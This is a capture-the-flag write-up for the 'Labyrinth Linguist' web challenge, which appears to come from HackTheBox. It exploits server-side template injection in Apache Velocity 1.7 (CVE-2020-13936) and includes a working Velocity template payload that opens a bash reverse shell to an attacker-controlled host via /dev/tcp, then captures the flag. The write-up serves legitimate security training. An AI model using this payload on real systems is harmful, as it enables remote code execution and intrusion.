

# Labyrinth Linguist

> Difficulty: Easy
>
> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

Solution:

We are given with the source files to re-create and test the challenge locally. A Docker instance can be spawned as well to solve and get the real flag, which is `http://83.136.255.205:37803/` for this case.



The web app is simple, we give it a text and it will "translate" it to "voxalith".


Based on the source files, we're using Apache Velocity 1.7, a Java-based templating engine.

Searching for "Apache Velocity 1.7 vulnerability" tells us that arbitrary code execution is possible (CVE-2020-13936).
https://security.snyk.io/package/maven/org.apache.velocity:velocity-engine-core
https://securitylab.github.com/advisories/GHSL-2020-048-apache-velocity/

Searching for potential PoCs, I stumbled on https://gist.github.com/win3zz/95ace39c4066a99df96fad6c2f8abdf5

I modified the `template.vm` a bit in order to have a reverse shell:

```java
#set($LHOST = 'XXXXXXX');
#set($LPORT = XXXXXXX);
#set($s = "");
#set($class = $s.getClass());
#set($command = "");
#set($command = "bash -c $@|bash 0 echo sh -i >& /dev/tcp/$LHOST/$LPORT 0>&1");
$class.forName("java.lang.Runtime").getRuntime().exec($command)
```

Ran ngrok, updated the template, pasted it to text box, and submitted it.


Boom!

Based on `entrypoint.sh`, the flag is in the root directory and has a random string appended to it.


Noice!

Flag: `HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`
